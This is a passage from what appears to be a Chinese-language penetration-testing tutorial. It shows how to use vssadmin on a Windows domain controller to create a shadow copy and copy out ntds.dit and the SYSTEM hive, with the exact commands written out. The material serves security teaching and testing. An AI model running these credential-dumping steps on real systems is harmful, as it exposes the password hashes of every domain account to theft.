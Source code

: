 ##### [vssadmin](#toc_vssadmin)

vssadmin 是 WIndows Server 2008 和 Win 7 提供的 VSS 管理工具，可用于创建和删除卷影拷贝、列出卷影拷贝的信息 (只能管理系统 Provider 创建的卷影拷贝)、显示已安装的所有卷影拷贝写入程序等，在内网渗透测试过程中，我们也可以使用 vssadminn 来提取 ntds.dit 文件，流程如下：

Step 1：在域控制器中打开命令环境，输入如下命令，创建一个 C 盘的影卷拷贝：

vssadmin create shadow /for=c:

[![image.png](assets/1698894155-4c4a472d0bc5f51d96e548a82f99bbf2.png)](https://storage.tttang.com/media/attachment/2022/09/30/ba5722b4-2d20-4097-b366-05d576cc3128.png)

Step 2:将 NTDS.dit 和 SYSTEM 文件从创建的影卷中复制出来

copy \\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\windows\\NTDS\\ntds.dit c:\\ntds.dit  
copy \\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\Windows\\System32\\config\\SYSTEM C:\\SYSTEM

[![image.png](assets/1698894155-3caa500f7def12a2313d1a12fad7cd05.png)](https://storage.tttang.com/media/attachment/2022/09/30/af5d9964-0460-4ab6-bf34-fdd6a76e2e38.png)

之后可以在 C 盘中看到成功复制 ntds.dit 文件：

[![image.png](assets/1698894155-551699db690891d7745b2672c55c2320.png)](https://storage.tttang.com/media/attachment/2022/09/30/b964f2ce-1a84-46d1-b028-8a026dafe04f.png)
